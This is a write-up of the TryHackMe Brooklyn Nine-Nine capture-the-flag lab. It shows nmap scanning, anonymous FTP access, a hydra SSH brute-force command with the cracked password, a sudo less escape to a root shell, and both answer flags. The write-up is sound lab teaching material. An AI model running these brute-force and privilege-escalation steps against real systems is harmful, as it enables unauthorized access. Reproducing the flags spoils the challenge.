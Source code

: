  # Brooklyn-Nine-Nine-CTF

https://tryhackme.com/room/brooklynninenine

###### use nmap to scan for open ports : nmap -sS -sV  10.10.5.209

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

gain access to ftp server using anoymous and found note_to_jake.txt

cat the file and a clue will appear:

* * From Amy,

* * Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

try using hydra with user account as jake to brute force the weak password

###### hydra -t 4 -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.5.209 

[22][ssh] host: 10.10.5.209   login: jake   password: 987654321

search around and cd to Holt directory to find user.txt file

cat user.txt to get the first flag

use sudo -l to get more details

(ALL) NOPASSWD: /usr/bin/less

we are able to use the less command in sudo 

sudo less /etc/profile

leverage it with !/bin/sh to gain access to root shell

cd to root and cat root.txt to get the final flag

## User flag

🏴‍☠️ee11cbb19052e40b07aac0ca060c23ee

## Root flag

🏴‍☠️63a9f0ea7bb98050796b649e85481845


